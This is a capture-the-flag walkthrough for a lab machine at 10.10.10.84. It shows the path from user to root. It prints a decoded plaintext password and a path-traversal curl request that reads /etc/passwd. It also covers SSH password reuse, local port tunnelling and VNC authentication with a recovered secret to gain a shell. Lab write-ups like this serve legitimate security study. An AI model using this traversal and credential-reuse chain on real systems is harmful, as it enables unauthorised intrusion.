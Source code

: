 ![logo](./logo.png)

10.10.10.84

# USER

Website hosted on the :80 port allows for shell script testing

listfiles.php gives a directory listing.
A file called pwdbackup.txt is shown

It's base64 encoded 13 times. Decoding gives us:

```
Charix!2#4%6&8(0
```

By traversing to the passwd file we can get the username

```
curl 'http://10.10.10.84/browse.php?file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd'
```

Therefore we can log into ssh using:

```
charix
ssh charix@10.10.10.84
```

This allows us to get the user.txt

# ROOT

In the directory is a secret.zip

The .zip file is password protected. Will run it through a rockyou script
No need for the brute force. The password is re-used from the user account

You can see listening services

```
netstat -an 
```

You can create tunneled ssh using -L local_port:address:remote_port

```
ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

# This allows us to connect to the port on our base machine. Running:

```
curl 127.0.0.1:5901
```

# Then by using the secret we found ealier we can authenticate with the VNC server and gain a shell

```
vncviewer 127.0.0.1::5901 -passwd secret
```